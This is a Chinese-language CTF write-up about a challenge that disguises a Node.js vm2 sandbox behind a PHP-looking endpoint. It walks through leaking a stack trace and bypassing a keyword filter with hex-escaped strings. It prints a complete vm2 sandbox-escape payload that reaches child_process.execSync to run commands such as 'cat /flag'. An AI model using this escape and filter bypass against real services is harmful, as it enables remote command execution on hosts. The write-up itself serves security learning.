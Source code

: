 尝试了一下`phpinfo()`发现：

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JM06UK.png)

再看了看提示，发现不是php。<br>
仔细看了下代码 `eval`里的`code`这个细节猜测应该是js写的，php是假象

验证后发现，code执行的确实是js的代码。。。

科学上网发现了这么一篇文章：[https://www.anquanke.com/post/id/170708?display=mobile](https://www.anquanke.com/post/id/170708?display=mobile)

访问`/run.php?code=Error().stack`得到:

```
Error
    at vm.js:1:1
    at ContextifyScript.Script.runInContext (vm.js:59:29)
    at VM.run (/usr/src/app/node_modules/vm2/lib/main.js:219:62)
    at /usr/src/app/server.js:51:33
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/usr/src/app/node_modules/express/lib/router/index.js:335:12)
```

发现题目设置的模块`vm.js`，然后发现对应的[vm2](https://github.com/patriksimek/vm2)仓库里已经有很多 escape 的 issue 了<br>
找到了这个 [https://github.com/patriksimek/vm2/issues/225](https://github.com/patriksimek/vm2/issues/225)

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JMBfiT.png)

直接输入代码：

[![](./img/203417/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/04/20/JMB4WF.png)

发现返回了一个键盘的页面。。

测试发现过滤了一些关键字：单引号、双引号、exec、prototype等等，会被拦截，然后返回这个键盘页面。。。

测试发现可以通过十六进制编码来进行关键字绕过：

```
(function(){TypeError[`x70x72x6fx74x6fx74x79x70x65`][`x67x65x74x5fx70x72x6fx63x65x73x73`] = f=&gt;f[`x63x6fx6ex73x74x72x75x63x74x6fx72`](`x72x65x74x75x72x6ex20x70x72x6fx63x65x73x73`)();try{Object.preventExtensions(Buffer.from(``)).a = 1;}catch(e){return e[`x67x65x74x5fx70x72x6fx63x65x73x73`](()=&gt;{}).mainModule.require((`x63x68x69x6cx64x5fx70x72x6fx63x65x73x73`))[`x65x78x65x63x53x79x6ex63`](`whoami`).toString();}})()
```

修改要执行的命令，就能得到flag了

payload:

```
(function(){TypeError[`x70x72x6fx74x6fx74x79x70x65`][`x67x65x74x5fx70x72x6fx63x65x73x73`] = f=&gt;f[`x63x6fx6ex73x74x72x75x63x74x6fx72`](`x72x65x74x75x72x6ex20x70x72x6fx63x65x73x73`)();try{Object.preventExtensions(Buffer.from(``)).a = 1;}catch(e){return e[`x67x65x74x5fx70x72x6fx63x65x73x73`](()=&gt;{}).mainModule.require((`x63x68x69x6cx64x5fx70x72x6fx63x65x73x73`))[`x65x78x65x63x53x79x6ex63`](`cat%20/flag`).toString();}})()
```
